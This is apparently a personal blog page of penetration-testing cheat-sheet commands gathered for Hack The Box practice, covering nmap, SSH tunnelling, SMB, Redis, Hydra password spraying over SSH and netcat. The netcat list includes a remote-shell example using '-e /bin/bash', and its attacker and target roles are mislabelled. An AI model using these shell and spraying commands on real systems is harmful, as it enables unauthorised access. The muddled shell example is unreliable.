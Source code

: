 ```yaml
---
title: "Useful Notes"
date: 2024-08-25T13:38:26Z
draft: false
author: "James"
tags: 
  - "Security"
  - "Penetration-Testing"
  - "Linux"
summary: "A page dedicated to quick and easy commands used."
---
```


## Introduction

I have decided to start progressing on Hack The Box while I have some free time to sharpen my skills and knowledge. 

## Useful commands 

#### Nmap

```nmap -F IPADDRESS``` - Fast scan the top 100 ports
```nmap -sV IPADDRESS``` - Service version detection
```nmap -O IPADDRESS``` - Operating system detection 
```nmap -sT IPADDRESS```- TCP Scan
```nmap -p- IPADDRESS```- Scan all ports

#### SSH

SSH Tunnelling to establish a connection with the remote ssh server and will listen for connections on the local port 1234 and forward to remote server on port 22. We can then access the services on the remote machine as if they were running locally. 
```ssh -L 1234:localhost:22 user@{target_IP}```

#### SMB

```smbclient -L``` is used to list file shares.

```smbclient -L \\IPADDRESS -U anonymous```
  Use tag "-W" to specify the workgroup.

Use ```get``` & ```put``` retrospecifively to download/upload files.

#### Redis
```redis-cli -u redis://host:port``` - To connect
```redis-cli -h``` - To get hostname

Once connected, run the ```info``` command to get the information about the system. 

Run the ```select``` command to enter the database.

#### Samba

```smbmap -H 10.10.10.3``` - Find shares

#### FTP

The below result from an Nmap scan shows the server allows anonymous logins:

```ftp-anon: Anonymous FTP login allowed (FTP code 230)```

#### Passwords

We can use Hydra to iterate through usernames and use the same password for each user via SSH:

```hydra -L users.txt -p 'PASSWORD' {target_IP} ssh```

#### Network Sockets

The command `ss -tlnp` is used to display detailed information about network sockets on a Linux system. Here's a breakdown of what each option means:

- **`ss`**: This is the command used to display network socket information (similar to `netstat`, but faster and more powerful).
  
- **`-t`**: Show **TCP** sockets only.
  
- **`-l`**: Show only **listening** sockets (i.e., sockets that are waiting for incoming connections, such as servers).

- **`-n`**: Show numerical addresses and ports instead of resolving hostnames or service names. For example, it shows `127.0.0.1` instead of `localhost`, and `80` instead of `http`.

- **`-p`**: Show the **process** using the socket, along with the PID (Process ID) and the name of the program.


#### Netcat

Netcat (or nc) is a versatile networking tool that is often referred to as the "Swiss Army knife" of networking. It is used for a variety of tasks involving network connections
```bash
1. Basic Syntax
nc [options] [hostname] [port]

2. Start a TCP Server
nc -l -p 1234

3. Connect to a TCP Server
nc [hostname] 1234

4. File Transfer
On the server (receiving):
nc -l -p 1234 > received_file
On the client (sending):
nc [server_ip] 1234 < file_to_send

5. Port Scanning
nc -zv [hostname] [port_range]
Example:
nc -zv localhost 20-80

6. Simple Chat
Listener:
nc -l -p 1234
Connector:
nc [hostname] 1234

7. UDP Mode
Send UDP packets:
nc -u [hostname] 1234
Listen for UDP packets:
nc -u -l -p 1234

8. Remote Shell
Listener (attacker's machine):
nc -l -p 4444 -e /bin/bash
Client (target's machine):
nc [attacker_ip] 4444

9. Check if a Port is Open
nc -zv [hostname] [port]
Example:
nc -zv example.com 80

10. Set a Timeout
nc -w 3 [hostname] 1234
